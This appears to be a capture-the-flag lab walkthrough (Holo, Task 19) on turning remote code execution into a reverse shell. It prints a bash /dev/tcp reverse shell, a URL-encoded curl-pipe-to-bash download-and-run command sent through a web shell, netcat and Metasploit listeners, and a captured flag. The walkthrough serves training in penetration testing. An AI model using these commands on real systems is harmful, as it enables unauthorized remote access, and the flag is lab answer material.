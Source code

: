 
Now that you have escaped the container and have RCE on the host, you need to create a reverse shell and obtain a way to gain a stable shell onto the box.  

There are several ways to obtain a reverse shell on a box once you have RCE. Outlined below are a few of the most common methods used.  

- netcat
- bash
- python
- perl

For more information about various payloads and reverse shells, you can use check out these two resources. [https://github.com/swisskyrepo/PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings). [http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet).

In this task, we will be covering how to use a basic bash reverse shell along with URL encoding to drop a script directly into bash. Using URL encoding to our advantage, we can ease much pain when executing a payload as often special characters such as `&, ', !, ;, ?` will cause serious issues.  

To begin, we will create a simple payload by placing the below code into a `.sh` file.

`#!/bin/bash`   
`bash -i >& /dev/tcp/tun0ip/53 0>&1`

- The first line will declare that we are using the bash scripting language. 
- The second line is the payload itself. 

For more information about this payload, check out this explain shell, [https://explainshell.com/explain?cmd=bash+-i+>%26+%2Fdev%2Ftcp%2F127.0.0.1%2F53+0>%261](https://explainshell.com/explain?cmd=bash+-i+%3E%26+%2Fdev%2Ftcp%2F127.0.0.1%2F53+0%3E%261).  

Now that you have the payload ready to go, you can start up a local web server on your attacking machine using either _http.server_ or _updog_ or _php_. You can find example usage for all three below.  

- `python3 -m http.server 80`
- `updog`
- `php -S 0.0.0.0:80`

Once you have a server started hosting the file, we can compile a command to execute the file. Find the command below.  

Unencoded command: `curl http://10.x.x.x:80/shellscript.sh|bash &`

As we have already mentioned, special characters can cause issues within URLs. To combat this, we can utilize URL encoding on any special characters. Find the encoded command below.

Encoded command: `curl%20http%3A%2F%2F10.x.x.x%3A80%2Fshellscript.sh%7Cbash%20%26`

The above command is entirely ready to go. You will only need to change the IP address and the file name within the command; this does not require you to change any of the URL encoding present.

You can now start a listener using Netcat or Metasploit to catch your reverse shell once executed. Find commands below to start listeners.  

- `nc -lvnp 53`
or
- `use exploit/multi/handler`

Now that you have the full payload and execution command ready, you can use it and the RCE to gain a shell onto the box. Find the full command below.  

Command used: `curl 'http://192.168.100.1:8080/shell.php?cmd=curl%20http%3A%2F%2F10.x.x.x%3A80%2Fshellscript.sh%7Cbash%20%26'`


---

# Your job

- Create a `shellscript.sh` file with the following code:
	`#!/bin/bash`
	`bash -i >& /dev/tcp/10.50.74.165/53 0>&1`

- Start up a local web server in the `shellscript.sh` directory on your attacking machine.
	`python3 -m http.server 80`

- On your attacking machine, start a listener using Netcat .
	`nc -lvnp 53`

- On the Reverse Shell you already have opened, run the following code:
	`curl 'http://192.168.100.1:8080/shell.php?cmd=curl%20http%3A%2F%2F10.50.74.165%3A80%2Fshellscript.sh%7Cbash%20%26'`
	![[Task 19 - Going out with a SHEBANG!-20240919140944870.webp]]
- Stabilize the shell.
	`python3 -c 'import pty; pty.spawn("/bin/bash")'`

You have shell onto  L-SRV01.


---

## Flag on L-SRV01

- On the Reverse Shell go to `www-data@ip-10-200-95-33:/var/www$` and run:
	`cat user.txt`

	HOLO{3792d7d80c4dcabb8a533afddf06f666}

- Submit the user flag on Task 4, question 2.

**Next step:** [[Task 20 - Call me Mario, because I got all the bits]]

